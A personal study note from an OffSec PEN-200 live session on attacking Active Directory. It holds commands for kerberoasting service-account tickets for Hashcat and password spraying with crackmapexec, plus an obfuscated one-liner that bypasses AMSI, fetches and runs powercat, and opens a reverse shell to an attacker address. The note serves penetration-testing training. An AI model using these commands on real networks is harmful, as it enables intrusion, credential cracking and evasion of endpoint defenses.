 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-26

# Active Directory Enumeration & Exploitation, Part 2

`Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.

In AD, the domain controller will grant a service ticket for *any* service to *any* user. Access is enforced by the *service* machine.

Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.

There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won't output the entire ticket!

```powershell
Invoke-Kerberoast -OutputFormat Hashcat |
	Select-Object Hash |
	Out-File -filepath "$FILE_PATH" -Width 8000
```

SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.

There's a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you *shouldn't* use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.)

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null
```

Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.

The SCShell fileless lateral movement tool is generally *not* detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.

Powercat is a reimplementation of netcat in PowerShell. Helpful!

A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat:

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Using PowerShell](../notes/powershell.md)
* [EmpireProject / Empire / module_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [Kerberos](../notes/kerberos.md)
* [Using Hashcat](../notes/hashcat.md)
* [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [besimorhino / powercat](https://github.com/besimorhino/powercat)
